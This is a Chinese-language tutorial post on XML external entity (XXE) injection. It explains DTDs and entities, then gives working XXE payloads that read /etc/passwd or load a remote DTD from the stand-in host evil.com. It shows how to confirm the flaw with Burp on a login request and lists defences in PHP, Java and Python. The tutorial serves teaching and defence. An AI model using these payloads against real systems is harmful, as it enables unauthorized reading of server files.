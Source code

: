 ```yaml
---
title: XML实体注入漏洞
date: 2020-1-22 20:09:00
---
```

## XML外部实体注入

当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害

**注意：**执行系统命令(安装expect扩展的PHP环境里才有)

## XML基础

XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型.

是一种允许用户对自己的标记语言进行定义的源语言。

XML文档结构包括XML声明、DTD文档类型定义、文档元素。

```html
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,bodys)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from  (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT bodys (#PCDATA)>
]><!--文档类型定义-->
<note>
	<to>北京</to><from>石家庄</from>
	<heading>wintrysec</heading><bodys>wintrysec.github.io</bodys>
</note><!--文档元素-->
```

DTD(文档类型定义)的作用是定义xml文档的合法构建模块。

DTD 可以在 XML 文档内声明，也可以外部引用。

PCDATA 指的是被解析的字符数据（Parsed Character Data）

XML解析器通常会解析XML文档中所有的文本

```xml
<message>此文本会被解析</message>
```

当某个XML元素被解析时，其标签之间的文本也会被解析： 

```xml
<name><first>Bill</first><last>Gates</last></name>
```

```html
<!--内部声明DTD-->
<!DOCTYPE 根元素 [元素声明]>
<!--引用外部DTD-->
<!DOCTYPE 根元素 SYSTEM “文件名”>
<!--或者-->
<!DOCTYPE 根元素 PUBLIC “public_ID” “文件名”>
<!--DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。-->

<!--内部声明实体-->
<!ENTITY 实体名称 “实体的值">
<!--引用外部实体-->
<!ENTITY 实体名称 SYSTEM “URI">
<!--或者-->
<!ENTITY 实体名称 PUBLIC “public_ID" “URI">
```

## 恶意引入外部实体的三种方式

#### 一、本地引入

XML内容：

```xml
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE x[
	<!ENTITY wintrysec SYSTEM "file:///etc/passwd">
]><!--文档类型定义-->
<test>&wintrysec;</test><!--文档元素-->
```

一个实体由三部分构成: 一个和号 (&), 一个实体名称, 以及一个分号 (;) 

#### 二、远程引入

XML内容：

```xml
<?xml version="1.0" ?> <!--XML声明-->
<!DOCTYPE x[
	<!ENTITY %d SYSTEM "http://evil.com/evil.dtd">
	%d;
]><!--文档类型定义-->
<test>&wintrysec;</test><!--文档元素-->
```

DTD文件(evil.dtd)内容：

```xml
<!ENTITY wintrysec SYSTEM “file:///etc/passwd">
```

#### 三、远程引入2

```xml
<?xml version="1.0" ?>
<!DOCTYPE x SYSTEM "http://evil.com/evil.dtd">
<test>&wintrysec;</test>
```

另外，不同程序支持的协议不一样

 ![](/images/xml1.png) 

 上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有

 ![](/images/xml2.png) 

## 发现XXE漏洞

寻找那些接受XML作为输入内容的端点。 

用Burp抓包，随便输入密码点击登录

观察应用程序的XML传输数据。

请求：

![request](/images/xmlr1.png)

响应：

![Response](/images/xmlp1.png)

应用程序正在解析XML内容，接受特定的输入，然后将其呈现给用户

修改请求的XML内容，重放

![](/images/xmlre1.png)

我们在上面的请求中定义了一个名为wintrysec，值为 'wintrysec666' 的实体

根据响应报文得知，解析器已经解析了我们发送的XML实体，并将实体内容呈现出来了。

由此，可以确认，这个应用程序存在XXE漏洞。

**读取任意文件：**

修改数据包内容为：

```xml
<?xml version="1.0"?> 
<!DOCTYPE a [ 
    <!ENTITY wintrysec SYSTEM "file:///etc/passwd"> 
]> 
<user><username>&wintrysec;</username><password>123</password></user>
```

重放， 成功读取`/etc/passwd`文件 

 ![](/images/xmlre2.png) 

## 防御XXE攻击

#### **一、过滤用户提交的XML数据**

```xml
关键字：
<!DOCTYPE和<!ENTITY，SYSTEM
```

#### **二、使用开发语言提供的禁用外部实体的方法**

PHP：

```php
libxml_disable_entity_loader(true);
```

JAVA:

```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python：

```python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
